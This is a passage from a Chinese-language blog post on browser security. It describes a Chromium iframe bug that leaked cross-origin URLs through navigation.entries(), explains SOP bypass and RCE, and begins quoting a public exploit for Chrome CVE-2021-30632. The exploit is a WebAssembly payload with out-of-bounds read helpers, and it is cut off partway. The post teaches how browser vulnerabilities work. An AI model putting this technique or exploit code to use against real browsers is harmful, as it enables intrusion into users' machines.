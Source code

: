 在 2022 年時，joaxcar 向 Chromium 回報了一個漏洞：[Issue 1359122: Security: SOP bypass leaks navigation history of iframe from other subdomain if location changed to about:blank](https://bugs.chromium.org/p/chromium/issues/detail?id=1359122&q=subdomain%20host%20leak&can=1)，可以利用一個 iframe 的漏洞讀到 cross-origin 的網址。

假設現在網頁是 `a.example.com`，裡面有一個 iframe 的網址是 `b.example.com`，用 `frames[0].location = 'about:blank'` 將 iframe 重新導向之後，iframe 就會變得跟 `a.example.com` same-origin，此時去讀取 iframe 的歷史紀錄：`frames[0].navigation.entries()`，就可以從裡面拿到原本 `b.example.com` 的網址。

而這是不應該發生的，當 iframe 重新導向到其他網址之後，`navigation.entries()` 就應該清空才對，因此這是一個 bug。

這就是一個繞過同源政策的案例，雖然只能讀取網址，但依然是一個資安的漏洞，拿到了 2000 美金的賞金。

## 小結

這篇文章的重點就只有一個，那就是「瀏覽器不給你的，你拿不到就是拿不到」，這是網頁前端跟其他執行環境很不同的一點。反之，如果瀏覽器不給你的你卻拿到了，那就代表你找到了瀏覽器的漏洞，可以去回報拿獎金。

那最嚴重的瀏覽器漏洞是什麼？就是可以讓攻擊者突破瀏覽器的限制，去做出違反瀏覽器安全假設的事情。

比如說剛剛就介紹過的 SOP bypass，可以違反同源政策，去讀取到其他網頁的資料，雖然說剛剛介紹的只能讀取到 URL，但有些更厲害的甚至可以讀取到內容。例如說你打開 `https://blog.huli.tw`，看了我的部落格文章，結果我的網站背後偷偷執行一段 JavaScript，利用了 SOP bypass 的漏洞去讀取你在 `https://mail.google.com` 上的所有信件內容。

聽起來很恐怖對吧？但有更恐怖的。

最嚴重的一種讓攻擊者可以透過 JavaScript 去利用瀏覽器的漏洞，在電腦上面執行任意指令，這種漏洞種類叫做 RCE（Remote Code Execution），遠端程式碼執行。

一樣舉個例子，假設你點開我的部落格，看了一些文章關掉，但此時我已經可以對你的電腦下指令了，可以把你電腦裡的資料全都偷出來，或是偷偷植入惡意軟體之類的。而以往就曾經有過不少次這種案例，每隔一陣子瀏覽器就會爆出這種最嚴重的漏洞，對我們這些一般使用者而言，就只能盡快更新瀏覽器，讓自己少暴露在危險當中。

在 2021 年 9 月的時候有爆出一個編號為 CVE-2021-30632 的漏洞，就是我剛剛講的 RCE，只要用 Chrome 瀏覽器（v93 版以前）打開一個網頁，攻擊者就可以直接入侵你的電腦並執行指令。

你會不會好奇通常這種攻擊的 JavaScript 程式碼都是長什麼樣子？都是利用了哪些功能，最後居然可以透過瀏覽器執行任意程式碼？

底下是 CVE-2021-30632 的其中一個 exploit，來源為：https://github.com/CrackerCat/CVE-2021-30632/blob/main/CVE-2021-30632.html

``` html
<!DOCTYPE html>
<html>
<head>
  <title></title>
</head>
<body>
<script type="text/javascript">

function gc() {
  for(var i = 0;i < ((1024*1024)); i++) {
    new String();
  }
}

var code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
var module = new WebAssembly.Module(code);
var instance = new WebAssembly.Instance(module);
var main = instance.exports.main;

function foo(y) {
  x = y;
}

function oobRead() {
  //addrOf b[0] and addrOf writeArr::elements
  return [x[20],x[24]];
}
```
